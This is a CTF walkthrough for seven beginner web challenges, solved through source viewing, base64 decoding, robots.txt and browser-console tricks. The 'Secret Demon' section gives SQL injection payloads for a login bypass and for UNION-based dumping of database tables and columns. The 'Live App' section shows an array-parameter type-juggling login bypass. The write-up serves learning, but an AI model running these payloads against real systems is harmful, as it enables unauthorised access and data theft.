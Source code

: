 ## Challenges
1. Lorem lpsum
2. My First Website
3. My Second Website
4. Consoling
5. Takeover
6. Secret Deomn
7. Live App

## Lorem Ipsum
![](/web/Lorem%20Ipsum/challenge.png)

o	Step 1 : Go to the link
![](/web/Lorem%20Ipsum/1.png)

o	Step 2: view the source to find the flag
![](/web/Lorem%20Ipsum/2.png)


## My First Website
![](/web/My%20First%20Website/challenge.png)

•	My First Website

o	Step 1: Go to the link
![](/web/My%20First%20Website/1.png)

o	Step 2: Inspect element, there is a base 64 encoded string in the alt field
![](/web/My%20First%20Website/2.png)

o	Step 3: base 64 decode and convert from hex to get the flag
![](/web/My%20First%20Website/3.png)


## My Second Website
![](/web/My%20Second%20Website/challenge.png)

o	Step 1: Go to the link
![](/web/My%20Second%20Website/1.png)

o	Step 2: add robots.txt behind the url
![](/web/My%20Second%20Website/2.png)

o	Step 3: Go to the html page
![](/web/My%20Second%20Website/3.png)


## Consoling

![](/web/Consoling/challenge.png)

o	Step 1: Go to the link

![](/web/Consoling/1.png)

o	Step 2: looking at the source, there is 3 different html pages
![](/web/Consoling/2.png)

o	Step 3: going to the realflag.html page
![](/web/Consoling/3.png)

o	Step 4: viewing the source, it says totry listfunctions()
![](/web/Consoling/4.png)

o	Step 5: try list functions in the console
![](/web/Consoling/5.png)

o	Step 6: run the get flag and get key function to get the flag
![](/web/Consoling/6.png)



## Takeover
![](/web/Takeover/challenge.png)

o	Step 1: Go to the link

![](/web/Takeover/1.png)


o	Step 2: Go to robots.txt

![](/web/Takeover/2.png)


o	Step 3: Going to the flag.html page, 

![](/web/Takeover/3.png)


o	Step 4: search for the } as there are many strings which start with NYP{

![](/web/Takeover/4.1.png)

![](/web/Takeover/4.2.png)

![](/web/Takeover/4.3.png)

## Secret Demon
```
This was solved after the CTF
```
![](/web/Secret%20Demon/challenge.png)


o	Step 1: use the payload below as the username and any character in the password field to login
```
admin' or 1=1 #
```
![](/web/Secret%20Demon/before_login.png)
![](/web/Secret%20Demon/logged%20in.png)


o	Step 2: use the payload below in the search field to list all the tables in the database
```
'UNION SELECT table_schema, table_name, 1 From information_schema.tables#
```
![](/web/Secret%20Demon/tables.png)
![](/web/Secret%20Demon/sec_chal_table.png)


o	Step 3: use the payload below in the search field to list the columns in security_challenge.oni_xyza table
```
' UNION SELECT table_name, column_name, 1 FROM information_schema.columns where table_name = 'oni_xyza'#
```
![](/web/Secret%20Demon/column.png)


o	Step 4: use the payload below in the search field to list the secret column in the oni_xyza table to get the flag
```
'UNION SELECT NULL, NULL, secret From security_challenge.oni_xyza #
```
![](/web/Secret%20Demon/flag.png)

```
flag: NYP{T4mAy0_i5_Qu33N}
```

## Live App
```
This was solved after the CTF
```
![](/web/Live%20App/challenge.png)

o Step 1: Use Burp to Intercept a post request


o Step 2: add a [] in front of the username and password and send the request to get the flag

```
username[]=&password[]=&login=Login
```
![](/web/Live%20App/flag.png)

```
flag: NYP{type_juggling!}
```
